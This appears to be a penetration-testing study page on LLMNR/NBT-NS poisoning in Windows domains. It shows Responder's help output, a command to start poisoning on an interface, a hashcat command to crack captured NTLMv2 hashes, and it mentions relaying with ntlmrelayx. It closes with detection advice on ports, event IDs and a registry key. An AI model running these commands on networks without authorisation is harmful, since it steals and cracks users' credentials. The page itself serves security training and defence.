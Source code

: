 # LLMNR/NBT-NS Poisoning

## Introduction

### Password Spraying and Poisoning

* The goal of these attacks are to acquire a valid set of credentials for a domain user account
* In return, we will be granted a foothold in the domain and we can begin the next phase of enumeration with credentials!

## LLMNR & NBT-NS

LLMNR: Link-Local Multicast Name Resolution

NBT-NS: NetBIOS Name Service

* Both are ways that serve as alternate methods of host identification when DNS fails
* We can attack these protocols by using the Man-in-The-Middle technique&#x20;
* <mark style="color:yellow;">The reason that LLMNR and NBT-NS are such a target is because any host on the network can reply to name resolution requests which is why we can poison these requests with Responder</mark>
* The poisoning works because the attacker pretends to know the location of the requested host
* We can then capture their NTLM hash and take it offline and crack it or attempt to Pass The Hash if the NTLM version is NTLMv1 and not NTLMv2
* The captured authentication request can also be relayed (Impacket-ntlmrelayx) to access another host or to be used against a different protocol such as LDAP on the same host

### Overall

* A mixture of LLMNR & NBT-NS in an environment will lead to a bad day
* Especially when those two network protocols are associated with a lack of SMB signing
* This can lead to SMB relay attacks; granting the attacker administrative access on the hosts in a domain

## Responder

Responder is capable of attacking the following networking protocols:

* LLMNR
* DNS
* MDNS
* NBNS
* DHCP
* ICMP
* HTTP
* HTTPS
* SMB
* LDAP
* WPAD
* WebDAV

### In Action

Responder Help Page:

```
responder -h
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

Usage: responder -I eth0 -w -r -f
or:
responder -I eth0 -wrf

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
  -d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
  -f, --fingerprint     This option allows you to fingerprint a host that
                        issued an NBT-NS or LLMNR query.
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective when combined with
                        -r. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  -v, --verbose         Increase verbosity.
```

Arguments:

* <mark style="color:yellow;">-A: Analyze mode</mark>; this will allow you to see <mark style="color:yellow;">NBT-NS, BROWSER, and LLMNR</mark>
  * This will NOT poison your requests
* <mark style="color:yellow;">-wf</mark>: This will start the <mark style="color:yellow;">WPAD rogue server</mark> and <mark style="color:yellow;">fingerprint</mark> the remote host OS and version
* \-v: Additional Verbosity
* <mark style="color:yellow;">-w</mark>: <mark style="color:yellow;">WPAD proxy server</mark>; it will capture all HTTP requests by any users that launch Internet Explorer!

### Starting Responder w/ Default Settings

```
sudo responder -I ens224
```

<figure><img src="../../.gitbook/assets/image (1) (1) (6) (2).png" alt=""><figcaption></figcaption></figure>

* You should always start Responder and let it run for a while and you can perform additional tasks in the foreground
* However, we can take this hash and crack it offline

### Hashcat

```
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

* Password cracked!

## How to Detect this kind of Behavior

It is not always possible to disable LLMNR and NetBIOS, and therefore we need ways to detect this type of attack behavior. One way is to use the attack against the attackers by injecting LLMNR and NBT-NS requests for non-existent hosts across different subnets and alerting if any of the responses receive answers which would be indicative of an attacker spoofing name resolution responses.&#x20;

Furthermore, hosts can be monitored for traffic on ports UDP 5355 and 137, and event IDs 4697 and 7045 can be monitored for. Finally, we can monitor the registry key HKLM\Software\Policies\Microsoft\Windows NT\DNSClient for changes to the EnableMulticast DWORD value. A value of 0 would mean that LLMNR is disabled.

